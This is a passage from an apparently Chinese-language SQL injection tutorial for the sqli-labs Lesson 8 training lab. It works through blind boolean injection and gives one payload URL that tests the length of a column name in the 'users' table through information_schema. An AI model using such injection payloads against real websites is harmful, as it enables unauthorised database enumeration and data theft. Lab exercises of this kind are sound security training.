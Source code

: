 ![14](/img/sql/Lesson-8/14.png)

根据上面两张图可以发现`users`的列数有3个。

#### 获取列长度 ####

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 2=length((select column_name from information_schema.columns where table_name="users" limit 0,1))%23`

![15](/img/sql/Lesson-8/15.png)
